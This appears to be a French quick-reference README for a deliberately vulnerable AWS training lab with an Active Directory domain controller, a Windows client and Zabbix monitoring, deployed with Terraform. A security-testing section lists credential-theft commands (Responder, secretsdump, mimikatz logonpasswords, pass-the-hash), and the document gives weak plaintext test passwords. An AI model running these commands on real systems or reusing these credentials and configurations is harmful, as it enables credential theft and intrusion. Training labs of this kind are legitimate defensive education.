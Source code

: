 # 📚 Guide de référence rapide

## 🚀 Commandes de déploiement

```bash
# Déploiement complet
make init && make plan && make deploy

# Voir les informations de connexion
terraform output summary
terraform output security_testing_info
```

## 🔍 Vérification rapide

### Infrastructure AWS
```bash
# Statut des instances
aws ec2 describe-instances --filters "Name=tag:Project,Values=domain-controller"

# IPs publiques
terraform output | grep "_ip"
```

### Domain Controller
```powershell
# Sur le DC via RDP
Get-ADDomain
Get-Service ADWS,DNS,Netlogon
Get-DnsServerZone
```

### Client Windows
```powershell
# Sur le client via RDP
whoami /fqdn
nltest /dsgetdc:school.local
Get-Service "Zabbix Agent"
```

### Zabbix
```bash
# Interface web
http://<ZABBIX_IP>/zabbix
# Login: Admin / zabbix

# SSH diagnostic
ssh -i .config/keys/domain-controller-key.pem ubuntu@<ZABBIX_IP>
sudo systemctl status zabbix-server
```

## 🛡️ Tests de sécurité

### Responder Attack
```bash
# Sur Kali Linux
sudo responder -I eth0 -wrf
```

### Hash Dumping
```bash
# Avec impacket
secretsdump.py school.local/testuser:Password123@<CLIENT_IP>

# Avec mimikatz (sur le client)
.\mimikatz.exe "sekurlsa::logonpasswords"
```

### Pass-the-Hash
```bash
pth-winexe -U school.local/testuser%<HASH> //<CLIENT_IP> cmd
```

## 📊 IPs et Accès

| Composant | IP Privée | Accès | Credentials |
|-----------|-----------|-------|-------------|
| **DC** | 10.0.1.10 | RDP:3389 | SCHOOL\Administrator |
| **Zabbix** | 10.0.1.20 | Web:80, SSH:22 | Admin/zabbix |
| **Client** | 10.0.1.30 | RDP:3389 | SCHOOL\Administrator |

## 👤 Comptes de test

| Utilisateur | Mot de passe | Type |
|-------------|--------------|------|
| Administrator | SchoolProject2024! | Domaine |
| testuser | Password123 | Local |
| serviceaccount | Service123 | Local |
| backup_admin | backup123 | Local |

## 🔧 Troubleshooting

### Client ne joint pas le domaine
```powershell
# Reconfigurer DNS
$adapter = Get-NetAdapter | Where {$_.Status -eq "Up"}
Set-DnsClientServerAddress -InterfaceIndex $adapter.InterfaceIndex -ServerAddresses "10.0.1.10"

# Rejoindre manuellement
Add-Computer -DomainName "school.local" -Credential (Get-Credential) -Restart
```

### Zabbix agent non connecté
```powershell
# Windows
Restart-Service "Zabbix Agent"
Test-NetConnection -ComputerName <ZABBIX_IP> -Port 10051
```

### Logs utiles
```bash
# DC
C:\Windows\debug\netlogon.log

# Client
C:\client-setup.log

# Zabbix
/var/log/zabbix/zabbix_server.log
```

## 🧹 Nettoyage

```bash
# Détruire l'infrastructure
make destroy

# Confirmer la suppression
terraform destroy -auto-approve
```

## ⚠️ Sécurité

- ❌ Configuration vulnérable intentionnelle
- ✅ Uniquement pour formation
- 🔒 Ne pas utiliser en production 